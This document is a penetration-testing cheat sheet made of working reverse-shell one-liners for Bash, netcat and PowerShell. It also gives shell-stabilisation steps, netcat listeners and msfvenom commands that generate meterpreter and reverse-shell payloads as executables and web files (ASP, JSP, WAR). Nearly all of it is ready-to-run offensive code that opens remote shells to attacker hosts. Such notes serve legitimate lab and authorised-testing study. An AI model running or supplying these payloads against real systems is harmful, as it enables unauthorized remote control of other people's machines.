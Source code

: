 #### Reverse shell

- https://www.revshells.com/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

##### Bash

```
bash -c 'exec bash -i &>/dev/tcp/192.168.119.126/443 <&1'
```

##### Netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f
```

##### Powershell Reverse shell

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Fully interactive TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z
stty raw -echo; fg

stty rows 72 columns 139
```

#### Better netcat listener for Windows

```
rlwrap nc -lvnp 1337
```

rlfe lets you use history and line-editing in any text oriented tool.
```
rlfe nc -lvnp 1337
```

#### MSFvenom

- https://netsec.ws/?p=331

- Check arch (x86 or x64)
- Check shell or if meterpreter start the handler

##### Binaries

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf -o shell.elf
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -o shell.exe
```
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho -o shell.macho
```

##### Web 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```